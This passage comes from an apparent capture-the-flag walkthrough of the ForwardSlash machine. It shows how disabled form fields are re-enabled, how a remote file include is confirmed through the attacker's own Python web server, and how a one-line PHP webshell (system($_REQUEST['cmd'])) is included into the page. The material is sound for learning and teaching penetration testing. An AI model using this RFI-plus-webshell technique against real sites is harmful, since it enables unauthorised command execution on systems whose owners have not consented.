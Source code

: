Visiting `http://backup.forwardslash.htb/dev/` returns a 403:

![image-20200405152122503](https://0xdfimages.gitlab.io/img/image-20200405152122503.png)

That message suggests I’m blocked because of my IP. I should try to visit from
localhost later.

## Shell as chiv

### RFI in Profile Picture

#### RFI Proof of Concept

I can easily re-enable the fields in `profilepicture.php` so that I can submit
by right clicking on each and selecting Inspect Element, and then removing
`disabled=""` from the HTML. I’ll then start a Python web server, add my
myself as a url, `http://10.10.14.24/` and hit submit. It send a request to
me:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.183 - - [04/Apr/2020 15:27:51] "GET / HTTP/1.0" 200 -
    

Not only does it show up at my server, but the response shows up in the page:

![image-20200405063652163](https://0xdfimages.gitlab.io/img/image-20200405063652163.png)

I’ll create a text file with just “0xdf” in it. When I reference that file
with the input url, it too is included on the page:

![image-20200405064413394](https://0xdfimages.gitlab.io/img/image-20200405064413394.png)

This is a remote file include vulnerability.

#### PHP

My initial thought was to include a PHP webshell. I’ll drop one into my
webserver directory, and submit it to the form. When I look at the source of
the page that comes back, it is showing the webshell at the bottom:

    
    
    <!DOCTYPE html>
    <head>
        <meta charset="UTF-8">
        <title>Welcome</title>
        <link rel="stylesheet" href="bootstrap.css">
        <style type="text/css">
            body{ font: 14px sans-serif; text-align: center; }
        </style>
    </head>
    <body>
        <div class="page-header">
            <h1>Change your Profile Picture!</h1>
    	<font style="color:red">This has all been disabled while we try to get back on our feet after the hack.<br><b>-Pain</b></font>
        </div>
    <form action="/profilepicture.php" method="post">
            URL:
            <input type="text" name="url" disabled style="width:600px"><br>
            <input style="width:200px" type="submit" value="Submit" disabled>
    </form>
    </body>
    </html>
    <?php system($_REQUEST["cmd"]); ?>
    